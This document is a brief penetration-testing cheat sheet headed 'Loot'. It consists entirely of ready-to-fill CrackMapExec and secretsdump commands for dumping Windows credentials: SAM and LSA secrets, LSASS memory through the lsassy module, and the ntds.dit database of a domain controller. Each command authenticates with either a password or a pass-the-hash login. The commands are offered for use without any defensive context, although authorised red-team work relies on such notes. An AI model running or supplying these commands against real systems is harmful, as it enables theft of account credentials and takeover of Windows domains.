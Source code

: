 # Loot

## Dump SAM (domain auth)

```
cme smb <target> -u <user> -p '<password>' -d <domain> --sam
```

= domain: $DOMAIN

## Dump SAM (local auth with hash)

```
cme smb <target> -u <user> -H <hash> --sam
```

## Dump LSA (domain auth)

```
cme smb <target> -u <user> -p '<password>' -d <domain> --lsa
```

= domain: $DOMAIN

## Dump LSA (local auth with hash)

```
cme smb <target> -u <user> -H <hash> --lsa
```

## Dump LSASS (domain auth)

```
cme smb <target> -u <user> -p '<password>' -d <domain> -M lsassy
```

= domain: $DOMAIN

## Dump LSASS (local auth)

```
cme smb <target> -u <user> -H <hash> -M lsassy
```

## Dump ntds.dit (domain auth) - cmme

```
cme smb <dc_ip> -u <user> -p '<password>' -d <domain> --ntds
```

= domain: $DOMAIN

## Dump ntds.dit (domain auth) - secretsdump

```
secretsdump '<domain>/<user>:<password>'@<ip>
```

= domain: $DOMAIN